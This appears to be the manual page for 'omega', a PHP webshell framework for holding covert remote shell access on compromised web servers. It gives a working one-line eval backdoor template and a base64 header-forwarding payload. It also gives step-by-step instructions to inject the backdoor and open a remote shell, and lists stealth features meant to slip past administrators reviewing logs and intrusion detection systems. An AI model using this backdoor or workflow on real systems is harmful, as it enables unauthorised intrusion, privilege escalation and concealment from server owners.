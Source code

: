 .TH "" 1 "" ""


.P
OMEGA

.SH NAME

.P
\fBomega\fR — furtive tunnel based php webshell

.SH SYNOPSIS

.P
\fBomega\fR [\fItarget\-url\fR|\fIsession\fR]

.SH DESCRIPTION

.P
\fBomega\fR is a furtive tunnel \fIbased\fR php webshell: it was designed in order to help privilege escalation through a very small php backdoor, while remaining the most stealth, efficient, and adjustable as possible.

.P
It innovates by settling for a remotely stored micro backdoor that forwards to dynamic encoded HTTP headers, which act as dynamic payload. This feature is usefull to bypass admins searching for suspicious lines in the server logs, because GET requests without arguments, are not as suspect as POST requests, or GET requests with suspicious arguments (eg: "?cmd=cat&edit=/etc/passwd").

.P
The \fBomega\fR framework is plugin based, so users can easily make their own plugins, or edit the built\-in ones, with the \fIpspapi\fR (omega API) that interracts with the target server through the framework.

.P
Its structure allows him to evolve and be easily adapted to all types of web exploitation scenarios, because every setting can be edited \fIglobally\fR (through user configuration file), or \fIlocally\fR, using the \fBset\fR command.

.P
A backdoor to bring them all... \- https://bitbucket.org/entynetproject/omega

.SH OPTIONS

.P
Running \fBomega\fR without any argument runs a blank session, with all settings set to default.

.TP
If an URL is specified as argument, only sets the \fITARGET\fR setting to that value.
\fB$ omega http://127.0.0.1/backdoored\-url.php\fR

.TP
You also can use a previously saved \fIsession\fR file as argument, to use him instead of a blank session. Sessions can (and need to) be saved with the \fBsave\fR command.
\fB$ omega ~/targets/localhost/omega.session\fR

.TP
For inline help, you also can use \fBomega \-\-help\fR

.SH USAGE

.P
The most basic way to use omega it as described here:

.RS
.IP 1. 3
First, find a remote php execution access.
.IP 2. 3
Open omega, and run the \fBinfect\fR command to get the working backdoor.
.IP 3. 3
Inject that backdoor on the remote server.
.IP 4. 3
Run "\fBset TARGET http://site/backdoored\-url.php\fR".
.IP 5. 3
You also can edit some \fBSETTINGS\fR (with the "\fBset\fR" command), such as the PROXY, or REQ_* variables.
.IP 6. 3
Just type "\fBexploit\fR", and enjoy your remote shell access :)
.RE

.P
\fIWARNING\fR: If the "\fBexploit\fR" command doesn't works, and returns an error, it can be for a lot of reasons:

.RS
.IP 1. 3
\fBHTTP Error 400: Bad request\fR \- Generally, this error occurs because one or some \fBREQ_*\fR settings are too big for the server. So you need to settle their values.
.IP 2. 3
\fBRequest error: Connection refused\fR \- If you are sure that the specified \fBTARGET\fR is accessible from your computer (or from the \fBPROXY\fR if defined), this error can occur because the \fBPROXY\fR is invalid
.IP 3. 3
If you have injected your \fBBACKDOOR\fR in an existing remote php code, make sure it is each time executed.
.IP 4. 3
Other issues can occur because one of your \fBSETTINGS\fR where modified without taking care of their validity, or because an IDS has detected the exploitation try.
.IP 5. 3
If the encountered issue is not in the list, you can also post an issue with all details here: https://bitbucket.org/entynetproject/omega/issues or contact the Author (see the \fBAUTHOR\fR section)
.RE

.SH INTERFACE

.P
The \fBomega\fR framework includes two shell interfaces.

.RS
.IP \(bu 3
The \fBMAIN SHELL\fR is the first shell interface, spawned when the framework starts. It is used to prepare a target exploitation. Through it, you can locally adjust the \fBSETTINGS\fR with the "\fBset\fR" command, and use the "\fBinfect\fR" command to get the micro\-backdoor that needs to be injected on the target.
.IP \(bu 3
The \fBREMOTE SHELL\fR interface starts when a target server was exploited. Its is used to interract with the backdoored URL.
.RE

.P
\fBTO GET HELP\fR on a omega command, you can use "\fBhelp <command>\fR", "\fB<command> \-\-help\fR" or "\fB<command> \-h\fR". If there is no specific help for a command, such as \fBinfect\fR, a short description of each command's purpose is available typing \fBhelp\fR without arguments.

.P
The commands are auto\-completed on unix clients, and try to use \fBreadline\fR if available.
They are divided into groups when shown whith the "\fBhelp\fR" command:

.RS
.IP \(bu 3
The \fBCORE COMMANDS\fR contains all commands available through every interface.
.IP \(bu 3
The Shell Commands contains the commands specific to the current interface.
.IP \(bu 3
In the remote shell, plugin commands are grouped by categories.
.RE

.P
\fICore Commands:\fR

.TP
\fBclear\fR
Clear the terminal screen
.TP
\fBexit\fR
Leave the current shell interface
.TP
\fBhelp\fR
Shows help for all available commands
.TP
\fBinfect\fR
Prints a working backdoor to inject in the target
.TP
\fBrtfm\fR
Read this manual page
.TP
\fBsave\fR
Save the current session in a file, for future usage
.TP
\fBset\fR
View and edit omega settings

.SH MAIN SHELL

.P
When entering \fBomega\fR, the main shell is spawned, it helps you to locally edit your settings (\fBset\fR command), get the working backdoor (\fBinfect\fR command), and then start the \fIremote shell\fR (\fBexploit\fR command).

.P
\fIShell Commands:\fR

.TP
\fBexploit\fR
Drop a shell from target server

.SH REMOTE SHELL

.P
When you run the \fBexploit\fR command, you enter the remote shell, and directly interracts with the remotely backdoored server through the \fBomega\fR plugins.
Typing \fBhelp\fR will show the available commands.
\fBCore Commands\fR are all the \fBomega\fR remote shell built\-in commands.

.P
\fIShell Commands:\fR

.TP
\fBenv\fR
This command interracts with the environment variables, for more informations, please read the \fBREMOTE ENVIRONMENT\fR section.
.TP
\fBlastcmd\fR
Allows user to show or save the last command output
.TP
\fBreload\fR
Reloads the commands list, usefull if you have edited one plugin during an exploitation session
.TP
\fBshell\fR
Various command plugins, such as \fIsystem\fR, \fImysql\fR and \fIsuidroot\fR can be used as frontend shell. For example, "\fB> shell system\fR" will spawn the "\fBsystem\fR" command as default prompt, making all typed lines to be executed by this plugin.

.P
All the other remote shell commands are in reality dynamic plugins, built with the \fBPSPAPI\fR (omega API).
As with all commands, you can use "\fBhelp <command>\fR" to get help.

.P
The built\-in plugins are storred in the \fI./framework/plugins/\fR directory, sorted by categories, you can edit a built\-in or make your own command, with the \fBPSPAPI\fR.

.P
If you want to make you own plugin, it is recommended to use the alternative plugin directory \fI./plugins/\fR from the omega's user directory, this one works exactly like the buit\-in plugins directory.

.P
If a command has been edited during an exploitation session, use the "\fBreload\fR" command to reload the plugins list.

.SH SETTINGS

.P
The \fBomega\fR settings are available from the interface, they can be viewed, and edited with the \fBset\fR command.

.P
When a new session is opened, all \fIsettings\fR are set to their default values, specified in the omega's user configuration file. Editing this file allows you to specify your own default values, a very usefull feature for polymorphic backdoor, or custom HTTP headers. To get more informations about the configuration directory, please go to the \fBFILES\fR section.

.TP
\fBTARGET\fR
This setting contains the remote backdoored URL in target server, for example, if you have injected the backdoor (obtained with the \fBinfect\fR command) on a file named \fBtest.php\fR in your local server's webroot, the \fBTARGET\fR will be http://localhost/test.php .

.RS
\fBDefault value: None\fR
.RE

.TP
\fBBACKDOOR\fR
This is the backdoor template, used to generate the effective micro\-payload to be written into a target web page, it needs to be valid php code, and it's preferable to make him non\-verbose, by prexifing it's main function with an \fI@\fR. For example, \fI@\fReval() instead of eval(). For more informations about how \fBomega\fR builds request, please read the \fBREQUEST BUILDING\fR section.
The only purpose of the \fBBACKDOOR\fR is to execute the \fBREQ_HEADER_PAYLOAD\fR's content so it need to contain the dynamic var %%PASSKEY%%.

.RS
\fBDefault value: <?php @eval($_SERVER['HTTP_%%PASSKEY%%']);?>\fR
.RE

.TP
\fBPASSKEY\fR
This var is interesting for customisation, assuming it is used as main header forwarder's name, changing is default value will act as a \fIpassword\fR, making another \fBomega\fR user unable to use your \fIbackdoor\fR if it does not own the \fBPASSKEY\fR.

.RS
\fBDefault value: omega\fR
.RE

.TP
\fBPROXY\fR
With this setting, you can specify an \fIHTTP Proxy\fR, matching the pattern \fBaddress:port\fR, to send \fBomega\fR's requests through it. Be carrefull, a non\-working \fBPROXY\fR will make the requests unreachable. To disable the proxy, set it's value to \fBNone\fR.

.RS
\fBDefault value: None\fR
.RE

.TP
\fBSAVEPATH\fR
Here you can specify the default directory that will be used to save \fBomega\fR sessions, when no arguments are specified for the \fBsave\fR command. It uses your system's temporary directory as \fIdefault\fR value.

.TP
\fBTMPPATH\fR
This setting is a bit different than the \fBSAVEPATH\fR one, because omega use it to write temporary files, for example, it is used by the \fBedit\fR command in the \fIremote shell\fR. It uses your system's temporary directory as \fIdefault\fR value.

.TP
\fBREQ_DEFAULT_METHOD\fR
This is the default http METHOD that will be used to send payloads, so it's value can only be \fIGET\fR or \fIPOST\fR.

.RS
\fBDefault value: GET\fR
.RE

.TP
\fBREQ_HEADER_PAYLOAD\fR
This setting is the dynamic payload forwarder, when a request is send by the \fBomega\fR framework, a dynamic \fIHTTP HEADER\fR will be sent on eaceh request, the header's name is the \fBPASSKEY\fR setting, and the value is the  \fBREQ_HEADER_PAYLOAD\fR value, for more informations about how \fBomega\fR builds requests, please read the \fBREQUEST BUILDING\fR section.

.RS
\fBDefault value: eval(base64_decode(%%BASE64%%))\fR
.RE

.TP
\fBREQ_INTERVAL\fR
This setting can be usefull for large payloads, sent with a big amount of requests, for example, when using the \fBupload\fR's remote shell command, when seending a big file to the server.
It's used to add a delay between each request with a simple syntax. Using a number as value (ex: 20) will wait this exact numer of seconds, but you cal also specify a tuple of numbers, for example, the default value will make the builder wait a random number of seconds between \fB1\fR and \fB10\fR before each request. To disable it, just set it to \fI0\fR.

.RS
\fBDefault value: 1\-10\fR
.RE

.TP
\fBREQ_MAX_HEADERS\fR
\fBMainly used for HTTP GET requests\fR. Assuming that omega use http headers for payload encapsulation, it's important to know what is the exact http server's headers limit, because a too small \fBREQ_MAX_HEADERS\fR value will decrease the max payload size per request. Most servers, like apache and IIS accept up to 100 headers per request, but other servers can allow 200 headers or more, and smaller servers can limit headers numer to 50 or less. The default value works with a large amount of common servers with default configuration, but in some cases it will be necessary to reduce this value.

.RS
\fBDefault value: 100\fR
.RE

.TP
\fBREQ_MAX_HEADER_SIZE\fR
\fBMainly used for HTTP GET requests\fR. This setting is complementary to the \fBREQ_MAX_HEADERS\fR one, because it sets the max size that \fIeach header\fR can contain. In most cases, the common servers limit the size to \fI8Kio\fR, but many others, like \fBapache tomcat\fR and a lot of virtualized web hosting solutions limit the maximum size of each header to \fI4Kio\fR or less.

.RS
\fBDefault value: 8Kb\fR
.RE

.TP
\fBREQ_MAX_POST_SIZE\fR
\fBMainly used for HTTP POST requests\fR. This is the target server's limit for POST data, in a lot of servers, this limit is very large, such as 32Mio or more, but a lot of other web servers, and their default configurations sets this limit to 8Mio. If you intend to use POST request during a remote \fBomega\fR session, it is recommended to run the \fBphpinfo\fR command that provides the real server's \fImaximum post size\fR, then adapt the \fBomega\fR's \fBREQ_MAX_POST_SIZE\fR.

.RS
\fBDefault value: 8Mb\fR
.RE

.TP
\fBREQ_ZLIB_TRY_LIMIT\fR
On the \fBomega\fR's request builder, when the payload can't be sent in one single request because he is too large, the framework will start a lot of computering functions to calculate how much requests are needed for each \fIhttp method\fR, and to decrease the number of needed requests, he will each time try to compress the payload with \fBZLIB\fR, this feature is usefull to descrease the number of requests. But, the bigger the base payload, the slower the needed computation time. Assuming this, you can with this setting specify a maximum payload size, from which the manufacturer will not longer try to compress the cuted payload. That will increase the number of needed requests, but shalt the computation time acceptable. More powerfull your computer, more this value can be increased.

.RS
\fBDefault value: 5Mb\fR
.RE

.TP
\fBHTTP_USER_AGENT\fR
This is the user\-agent header used on each \fBomega\fR request, to pick a random user\-agent from a wordlist on each request, you can also use a \fIfile object\fR as value.

.RS
\fBDefault value: file://framework/misc/http_user_agents.lst\fR
.RE




.P
Note that the \fBHTTP_USER_AGENT\fR setting is included by default, but it is possible to create as many default headers as you want, you just need to create a setting starting with HTTP_ followed by the name of the header.

.RS
\fBExample: set HTTP_ACCEPT_LANGUAGE fr\-FR;en\-US\fR
.RE

.P
\fIFile objects\fR can be used for HTTP_* settings, the syntax is \fBfile:///full/path/to/file.txt\fR, these objects will pick an random line in file for each http request. This facilitates polymorphic requests generation, and therefore, stealth. A file object is defaultly used for the \fBHTTP_USER_AGENT\fR setting.

.SH REMOTE ENVIRONMENT

.P
The remote environment variables are available from the \fBREMOTE SHELL\fR.
They are usefull to store server related informations, and \fBPSPAPI\fR plugins have write access to them.

.P
User can show, edit or delete them with the "\fBenv\fR" command, through the \fBREMOTE SHELL\fR instance.

.P
Be very careful while manually editing these variables, because wrong values can render inoperative certain commands.

.P
There is a list of \fBREMOTE ENVIRONMENT\fR variables defaultly used by \fBomega\fR core and built\-in plugins:

.TP
\fBCWD\fR
This variable contains the current remote working directory, the \fBcd\fR and \fBpwd\fR commands use it as reference.

.TP
\fBWEB_ROOT\fR
This variable contains the absolute path to the remote web root directory.

.TP
\fBWRITE_TMPDIR\fR
This variable imperatively needs to conatain the absolute path to a writeable remote directory. It is essential for multirequest payloads execution, that stores full payload parts into this path.

.TP
\fBWRITE_WEBDIR\fR
This environment variable contains the absolute path to a writeable remote directory \fIimperatively accessible from the web\fR. It can be used for evasion \fBMODULES\fR.

.SH REQUEST BUILDING

.P
This section is about how the \fBomega framework\fR manages the requests.

.P
\fB1 \- BACKDOOR\fR

.RS
.IP \(bu 3
First, the \fBBACKDOOR\fR setting defines the main backdoor template, him, \fIand only HIM\fR needs to be written in the \fBTARGET\fR remote URL.
.IP \(bu 3
To understand the principle, it is necessary to know that the PHP language automatically adds all the \fIrequest headers\fR into the $_SERVER global array, prefixing each header name by the "HTTP_" string.
.IP \(bu 3
Assuming that, the \fBBACKDOOR\fR just works like a forwarder, executing the $_SERVER['HTTP_%%\fBPASSKEY\fR%%'] remote variable who contains the \fBREQ_HEADER_PAYLOAD\fR.
.RE

.P
\fB2 \- REQ_HEADER_PAYLOAD\fR

.RS
.IP \(bu 3
The \fBREQ_HEADER_PAYLOAD\fR also known as \fIHeader Forwarder\fR is a header that is sent on each http request, the \fBPASSKEY\fR setting is used as name, and the \fBREQ_HEADER_PAYLOAD\fR is he's value's template.
.IP \(bu 3
This header acts like a payload forwarder, permitting execution of the \fBBASE64 PAYLOAD\fR, by executing \fBBASE64\fR encoded php code.
.RE

.P
\fB3 \- BASE64 PAYLOAD\fR

.RS
.IP \(bu 3
The \fBBASE64 PAYOLOAD\fR is automatically generated for each request, he is the last step for \fIreal payload execution\fR. They undencoded values can be found in the \fI./framework/phpfiles/forwarders/\fR \fBomega\fR directory.
.IP \(bu 3
\fBFor POST request\fR, this payload executes the $POST['%%\fBPASSKEY\fR%%'] php variable, who is used as \fBREAL PAYLOAD\fR when usgin this http method.
.IP \(bu 3
\fBFor GET requests\fR, it acts concatenating the list of dynamic \fBomega\fR headers alphabetically reordrered, each containing the splitted \fBREAL PAYLOAD\fR.
.RE

.P
\fB4 \- REAL PAYLOAD\fR

.RS
.IP \(bu 3
The \fBREAL PAYLOAD\fR contains a large amout of \fIzlib compressed\fR then \fIbase64 encoded\fR php code, who is dynamically generated by the \fBphppsloit\fR framework's optimization functions.
.IP \(bu 3
Unencoded (defaultly done by the \fBBASE64 PAYLOAD\fR), he is the \fBBASE PAYLOAD\fR passed through \fBENCAPSULATION\fR.
.RE

.P
\fB5 \- BASE PAYLOAD\fR

.RS
.IP \(bu 3
The base payload, can be a plugin's payload (contained in the \fI./framework/commands/<gategory>/<plugin>/payload.php\fR file), or the default \fBomega\fR remote session opener that is called when running the \fBexploit\fR command (available in the \fI./framework/phpfiles/server_link/open.php\fR file).
.IP \(bu 3
Base payloads are php 4.1.1 compatible (because a lot of web servers already use an old version of php).
.IP \(bu 3
The \fI!import(<function>)\fR lines allows php base payloads to import \fBomega\fR dedicated functions contained in the\fI./framework/phplibs/\fR directory. Usefull to limit redundancy.
.RE

.P
\fB6 \- ENCAPSULATION\fR

.RS
.IP \(bu 3
To manage return codes and \fBomega\fR tunneling, each \fBBASE PAYLOAD\fR is encapsulated with the \fI./framework/phpfiles/encapsulator.php\fR's php code.
.IP \(bu 3
It also manages response compression with \fBZLIB\fR, to speed\-up server's responses.
.RE

.SH FILES

.P
\fBConfiguration directory:\fR

.TP
If the \fB$XDG_CONFIG_HOME\fR shell environment variable is set:
\fB${XDG_CONFIG_HOME}/omega/\fR (a.k.a. likely ~/.config/omega/)
.TP
Else the user home is used as base directory:
\fB~/.omega/\fR (a.k.a. ${HOME}/.omega/ on GNU/Linux)

.P
The "./config" file is used as \fBomega\fR configuration file, on root user's configuration directory.
It allows to reconfigure the default \fBSETTINGS\fR (see the \fBSETTINGS\fR section for more informations)

.P
The "./plugins/" directory can be used to make your own \fBomega\fR plugins.

.SH ISSUES

.TP
To submit any issue, bug or proposal, please send it in the omega's issues section:
https://bitbucket.org/entynetproject/omega/issues

.SH CONTRIBUTE

.TP
If you want to contribute to \fBomega\fR, submit a plugin, patch, or anything else, take a look at the \fBCONTRIBUTE\fR file, from the ./doc directory

.SH AUTHOR

.P
\fBentynetproject\fR <http://goo.gl/kb2wf>

.SH LICENCE

.P
This software is under the GNU GENERAL PUBLIC LICENSE Version 3, 29 June 2007

.\" man code generated by txt2tags 2.6 (http://txt2tags.org)
.\" cmdline: txt2tags -q -t man -i man.txt2tags -o omega.1
